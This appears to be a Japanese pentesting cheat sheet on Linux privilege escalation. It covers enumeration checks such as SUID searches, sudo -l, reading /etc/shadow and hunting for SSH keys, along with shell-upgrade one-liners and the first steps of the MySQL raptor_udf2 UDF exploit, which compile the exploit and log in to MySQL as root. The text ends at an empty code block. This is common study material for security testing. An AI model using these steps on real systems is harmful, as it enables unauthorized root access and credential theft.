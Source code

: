 # Privilege Escalation(Linux)
## チェック項目
- tty shell
- linpeas.shの実行(自動列挙)
- ファイル権限の不備(/etc/passwd, /etc/shadow)
- sudoを悪用した権限昇格(sudo -l)
- Cron Jobsの確認(cat /etc/crontab)
- SUIDバイナリを悪用した権限昇格(find / -perm -u=s -type f 2>/dev/null)
- 端末内に残されているpasswordの探索(historyファイル, Webアプリケーションのソースコードやデータベース内の認証情報, .sshディレクトリ内のSSH秘密鍵)
- NFSを介した権限昇格
- 開いているポートの確認(netstat -tulpn)
- 実行中のプロセスの確認(ps -aux，pspyを使用してuid=0<root権限>で定期的に実行されているスクリプトがないか確認)
- Kernel Exploit(uname -a, linux-exploit-suggester-2)

## ^tty shell
```
#bashが制限されている場合はsh
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/bash";'
perl: exec "/bin/bash";
ruby: exec "/bin/bash"
lua: os.execute('/bin/bash')
```

・Ctrl+c，Ctrl+zなどを利用可能にする

```
stty raw -echo; fg
<Enter><Enter>
```

```
kali@kali:stty -a(結果を下のrows columns に代入)  
victim:stty rows 16 columns 136
```

・clearなどを可能にする
```
export TERM=xterm
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

## MySQL raptor_udf2.c
MySQLがrootとして実行されている場合に、mysqlに接続することができればroot権限を取得できる。  
https://www.exploit-db.com/exploits/1518  
まずは、raptor_udf2.cエクスプロイトコードをコンパイルする。
```
# ターゲットマシンの任意のディレクトリにraptor_udf2.cを配置する。
  ただし/tmpに配置すると、後のcreate function do_systemでエラーが出てしまうため、ここでは/dev/shmに配置する。
  /dev/shmでもエラーが出てしまう場合は、/var/wwwなどで試す。
cd /dev/shm
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
```
mysql -u root -p
```
MySQLのシェルで以下のコマンドを実行して、コンパイルされたエクスプロイトを使用してユーザ定義関数(UDF)「do_system」を作成する。
```
```